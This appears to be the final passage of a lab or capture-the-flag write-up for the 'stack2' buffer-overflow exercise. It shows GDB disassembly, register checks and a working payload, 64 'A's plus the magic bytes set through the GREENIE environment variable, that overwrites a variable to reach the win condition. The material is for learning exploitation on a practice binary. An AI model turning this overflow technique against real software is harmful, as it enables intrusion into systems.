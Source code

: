 
Looks good, now let's double check the disassembly:

```
0x080484e8 <main+84>:	cmp    eax,0xd0a0d0a
```

Now lets check our EAX register (as this is used in the comparison):

```
(gdb) x/w $eax <--- lol, works though
0xd0a0d0a:	Cannot access memory at address 0xd0a0d0a
```

So now we satisfy the EAX requirement, ourEIP looks like we are continuing into the 'win' condition without jumping over it like before:

```
eip            0x80484ef	0x80484ef <main+91>
```

If we continue our execution, we get the following:

```
(gdb) c
Continuing.
you have correctly modified the variable
```

Finally, let's make sure this all works outside of GDB too. We don't need to re export our environment variable but let's do it for completion:

```
$ GREENIE=$(python -c "print 'A'*64 + '\x0a\x0d\x0a\x0d'")
$ export GREENIE
$ ./stack2
you have correctly modified the variable
```

Sweet, with that condition satisfied, I have completed stack2 by using an overflow from an environment variable!
